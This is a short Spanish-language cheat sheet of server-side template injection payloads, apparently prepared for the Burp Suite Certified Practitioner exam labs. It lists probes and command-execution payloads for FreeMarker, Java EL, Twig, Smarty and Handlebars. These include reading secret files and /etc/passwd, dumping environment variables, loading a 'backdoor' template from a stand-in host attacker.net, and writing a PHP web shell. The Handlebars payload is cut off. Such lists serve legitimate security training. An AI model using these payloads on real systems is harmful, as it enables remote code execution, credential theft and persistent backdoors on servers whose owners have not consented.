 * El cat de `/home/carlos/secret` nos puede servir para el BSCP Stage 3. 

```js
//POLYGLOT:
${{<%[%'"}}%\

{{7*7}}
${7*7}
{{7*'7'}}
<%= 7*7 %>
${{7*7}}
#{7*7}
${foobar}
<%=foobar%>
${{<%[%'"}}%\.
//-------------- SECRETS -----------------
<%= system("cat /home/carlos/secret") %>
<%25+system("cat+/home/carlos/secret")+%25>
{% import os %}{{os.system('cat /home/carlos/secret')
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /home/carlos/secret") }
{{settings.SECRET_KEY}}
//-------------- SECRETS -----------------
${{<%[%'"}}%\,
{% debug %}
```

#### Use the intruder to test payloads check errors and move forward, search for exploits, etc. 

```
Polyglot:
${{<%[%'"}}%\

FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }

(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}

Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
```